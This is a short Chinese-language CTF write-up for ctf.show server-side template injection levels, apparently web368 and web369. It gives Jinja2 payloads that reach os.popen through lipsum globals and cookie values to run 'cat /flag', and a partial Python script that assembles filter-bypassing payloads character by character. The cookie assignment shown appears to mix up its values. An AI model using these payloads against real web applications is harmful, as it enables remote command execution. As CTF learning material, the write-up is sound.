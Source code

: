 [www.freebuf.com/articles/web/359392.html](https://www.freebuf.com/articles/web/359392.html)

payload如下：`http://96a474f4-9902-4b71-b0e4-e39163bcdbdf.challenge.ctf.show/?name={%print((lipsum|attr(request.cookies.a)).get(request.cookies.b).popen(request.cookies.c).read())%}`​

cookie：`a = __globals__;b=cat /flag; c=os`​

![image](assets/image-20250417210012-41b1ix7.png)

或者`{%((lipsum|attr(request.cookies.a)).get(request.cookies.b).popen(request.cookies.c).read())%}1{% endif %}`​

# web369

fuzz测试增加了过滤request

```undefined
# anthor:秀儿
import requests
url="http://ac6e1d67-01fa-414d-8622-ab71706a7dca.chall.ctf.show:8080/?name={
   {% print (config|string|list).pop({}).lower() %}}"

payload="cat /flag"
result=""
for j in payload:
    for i in range(0,1000):
        r=requests.get(url=url.format(i))
        location=r.text.find("<h3>")
        word=r.text[location+4:location+5]
        if word==j.lower():
            print("(config|string|list).pop(%d).lower() == %s"%(i,j))
            result+="(config|string|list).pop(%d).lower()~"%(i)
            break
print(result[:len(result)-1])

```

太难了,没想到什么办法就看了官方给的wp，自己写的脚本也没写完

‍

‍
